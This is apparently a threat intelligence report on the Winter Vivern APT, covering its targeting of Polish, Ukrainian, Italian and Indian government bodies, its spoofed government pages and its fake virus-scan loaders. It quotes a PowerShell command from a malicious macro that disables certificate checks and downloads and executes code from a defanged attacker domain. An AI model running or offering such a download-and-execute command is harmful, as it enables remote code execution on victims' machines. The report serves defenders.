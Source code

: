 Recently linked campaigns reveal that Winter Vivern has targeted Polish government agencies, the Ukraine Ministry of Foreign Affairs, the Italy Ministry of Foreign Affairs, and individuals within the Indian government. Of particular interest is the APT’s targeting of private businesses, including telecommunications organizations that support Ukraine in the ongoing war.
The threat actor’s targeting of a range of government and private entities highlights the need for increased vigilance as their operations include a global set of targets directly and indirectly involved in the war.
Luring Methodology
Winter Vivern’s tactics have included the use of malicious documents, often crafted from authentic government documents publicly available or tailored to specific themes. More recently, the group has utilized a new lure technique that involves mimicking government domains to distribute malicious downloads.
In early 2023, Winter Vivern targeted specific government websites by creating individual pages on a single malicious domain that closely resembled those of Poland’s Central Bureau for Combating Cybercrime, the Ukraine Ministry of Foreign Affairs, and the Security Service of Ukraine.


Malicious Page Mimicking cbzc.policja.gov.pl
In mid 2022 the attackers also made an interesting, lesser observed, use of government email credential phishing webpages. One example is ocspdep[.]com, which was used in targeting users of the Indian government’s legitimate email service email.gov.in.
email.gov.in Login Page
Looking back at less recent activity, we can see in December 2022 the group likely targeted individuals associated with the Hochuzhit.com (“I Want to Live”) project, the Ukraine government website offering guidance and instructions to Russian and Belarus Armed Forces seeking to voluntarily surrender in the war. In these attacks the threat actor made use of a macro-enabled Excel spreadsheet to infect the target.
When the threat actor seeks to compromise the organization beyond the theft of legitimate credentials, Winter Vivern tends to rely on shared toolkits, and the abuse of legitimate Windows tools.
View Into The Arsenal
Winter Vivern APT falls into a category of scrappy threat actors, being quite resourceful and able to accomplish a lot with potentially limited resources while willing to be flexible and creative in their approach to problem-solving.
Recent campaigns demonstrate the group’s use of lures to initiate the infection process, utilizing batch scripts disguised as virus scanners to prompt downloads of malware from attacker-controlled servers.
Fake Virus Scan Loaders
In the case of malicious documents, such as the Hochu Zhit themed XLS files, PowerShell is called through a macro. Specifically, Invoke-Expression cmdlet is executed, beaconing to the malicious destination of ocs-romastassec[.]com/goog_comredira3cf7ed34f8.php.
powershell.exe -noexit -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};
iex (new-object net.webclient).DownloadString('hxxps://ocs-romastassec[.]com/goog_comredira3cf7ed34f8.php')"

One malware family of recent activity is APERETIF, named by CERT-UA based on the development PDB path inside the sample. We identified a related sample following similar use, although it is less complete in malicious design. These samples align with the theme of attacks mimicking a virus scanner, presenting users with the fake scan results similar to the script loaders. Known samples are PE32 executables, written in Visual C++, with a compilation timestamp of May 2021. We assess the threat actor shifted from these original executables to the delivery of batch files with PowerShell scripting, with overlap in their use.

